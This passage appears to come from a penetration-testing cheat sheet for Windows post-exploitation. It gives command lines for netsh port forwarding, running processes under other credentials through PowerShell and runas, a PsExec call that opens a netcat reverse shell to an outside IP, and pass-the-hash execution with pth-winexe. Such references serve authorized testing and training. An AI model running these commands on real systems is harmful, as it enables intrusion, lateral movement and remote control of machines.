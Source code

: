 #### Netsh - Windows Port Forwarding

```bash
# requires admin
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport
```

### RunAs / Start Process As

#### PowerShell

```bash
# Requires PSRemoting
$username = 'Administrator';$password = '1234test';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;Invoke-Command -Credential $credential -ComputerName COMPUTER_NAME -Command { whoami }

# without PSRemoting
cmd> powershell Start-Process cmd.exe -Credential (New-Object System.Management.Automation.PSCredential 'username', (ConvertTo-SecureString 'password' -AsPlainText -Force))

# without PS Remoting, with arguments
cmd> powershell -command "start-process cmd.exe -argumentlist '/c calc' -Credential (New-Object System.Management.Automation.PSCredential 'username',(ConvertTo-SecureString 'password' -AsPlainText -Force))"
```

#### CMD

```bash
# Requires interactive console
runas /user:userName cmd.exe
```

#### PsExec

```csharp
psexec -accepteula -u user -p password cmd /c c:\temp\nc.exe 10.11.0.245 80 -e cmd.exe
```

#### Pth-WinExe

```csharp
pth-winexe -U user%pass --runas=user%pass //10.1.1.1 cmd.exe
```

### Recursively Find Hidden Files: Windows

```bash
dir /A:H /s "c:\program files"
```

### General File Search
